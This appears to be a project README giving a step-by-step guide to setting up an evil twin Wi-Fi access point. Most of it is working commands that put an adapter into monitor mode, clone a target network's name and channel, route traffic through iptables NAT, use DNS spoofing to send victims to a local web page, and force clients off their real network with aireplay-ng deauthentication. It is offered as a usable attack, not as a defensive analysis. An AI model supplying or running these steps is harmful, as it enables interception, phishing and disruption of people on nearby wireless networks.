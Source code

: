 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`
	You should see several devices such as eth0, wlan0, lo, etc.
	Now plug in your usb wireless adapter and run the command again.
	`iwconfig`
	You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet  
	`nmcli con`
	If it is connected, disconnect it from the network that is connected to our adapter
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID  
	 First update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	 Then get a list of all the devices broadcasting around you.
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command
	`airodump-ng -d <BSSID> wlan1mon`

11. Lets boost our signal strength, to the max legal limit in the US.  
	Note that not all wireless adapters support this.
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again check the signal strength with `iwconfig wlan1mon`

12. start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. 

13. Give the evil twin can access the internet.  
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

14. route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. evil twin is now setup, now need to allocate ip addresses to clients  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`
	Congratulations, you have setup hotspot for yourself.

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under `/var/www/html/index.html`. Ours is named index.html. 
	Start the server: `sudo /etc/init.d/apache2 start`

18. Your apache server is running locally. Record the IP address  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`
	Add urls you want to spoof to it. For example this will redirect anyone trying to visit http://www.example.com to our local apache server. 
	`127.0.0.1	example.com`
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic.

20. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





